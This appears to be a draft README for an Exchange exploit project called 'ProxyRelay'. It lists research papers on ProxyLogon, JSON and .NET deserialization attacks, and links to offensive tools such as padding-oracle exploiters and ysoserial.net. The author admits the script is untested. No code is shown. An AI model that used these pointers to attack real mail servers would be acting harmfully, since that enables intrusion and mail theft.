 - 

i'm not found a proper envirenment to test the script...so test it yourself.

# ProxyRelay


# Research PDFs

 - [Friday the 13th JSON Attacks](research-pdfs/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf)
 - [ProxyLogon is Just the Tip of the Iceberg](research-pdfs/us-21-ProxyLogon-Is-Just-The-Tip-Of-The-Iceberg-A-New-Attack-Surface-On-Microsoft-Exchange-Server.pdf)
 - [Are you my Type? - Breaking .NET Through Serialization](research-pdfs/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf)
 - []()
 - []()

## other links

 - [ProxyVulns](https://github.com/hosch3n/ProxyVulns)
 - [pax](https://github.com/liamg/pax)
 - [padre](https://github.com/glebarez/padre)
 - [python-paddingoracle](https://github.com/mwielgoszewski/python-paddingoracle)
 - [ysoserial.net](https://github.com/pwntester/ysoserial.net)
 - [使用 ProxyShell 和 ProxyLogon 劫持邮件链](https://paper.seebug.org/1764/)
 - []()
